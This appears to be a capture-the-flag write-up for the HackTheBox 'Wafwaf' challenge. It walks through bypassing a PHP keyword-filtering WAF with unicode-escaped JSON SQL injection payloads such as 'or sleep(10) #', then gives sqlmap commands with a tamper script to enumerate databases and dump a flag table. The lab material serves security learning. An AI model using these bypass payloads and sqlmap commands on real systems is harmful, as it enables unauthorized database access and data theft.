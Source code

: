 # bugbase_task2
## Wafwaf hackthebox

<img src="Picture1.png">


<p>&nbsp;</p>  


On entering the ip in the browser.

<img src="Picture2.png">
<p>&nbsp;</p>

it looks somewhat a php code

there is a sql database and the input of POST requests are filtered using the function *waf*.

<img src="Picture3.png">

- The script ends abruptly after a symbol is found


***[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having***


lets try sqli


# SQLi

Checking what happens when we make a request with one of the words that are filtered by the waf:

**curl http://46.101.23.188:32080/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}**


the script seems to accept **json** code;
and after getting json code  we can simply convert it into utf-16


lets burp we need to enter the localhoast address after -x


**curl http://46.101.23.188:32080/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080**

<img src="Picture4.png">

Once the request is captured, we will send it to the repeater



<img src="Picture5.png">

after this we will overcome this  using payload **or sleep(10) #** will be encoded to utf-16 to json decode.

I use this [unicode converter](https://www.branah.com/unicode-converter)

<img src="Picture11.png">



load the payload.

<img src="Picture12.png">





now enter the POST code into a .txt and rwplace the payload placeholder with ```bash * ```

<img src="Picture13.png">

# time based SQL Injection

execuing time based sqli using  ```sqlmap``` to retrieve database.

**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql**


<img src="Picture6.png">

We can see here we have five databases db_m8452, info_schema, mysql, performance_schema, sys.
lets retrive tables from db_m8452:


**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql**


<img src="Picture7.png">

db_m8452  has two tables, *definitely_not_a_flag* and *notes*. lets dump  *definitely_not_a_flag* (--dump).


**sqlmap -r qw.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql**

after applying the time based sql inject. and many payloads later we got the flag

<img src="Picture10.png">


